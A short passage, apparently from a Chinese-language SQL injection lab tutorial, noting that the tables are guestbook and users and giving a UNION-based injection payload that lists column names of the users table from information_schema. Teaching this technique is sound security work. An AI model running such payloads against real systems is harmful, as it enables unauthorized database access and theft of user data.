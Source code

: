 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672038427387-1bc779c7-3ae8-442b-b56b-acf39010a42b.png)

知道当前数据表名是guestbook,users

### 获取字段名

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --  
```
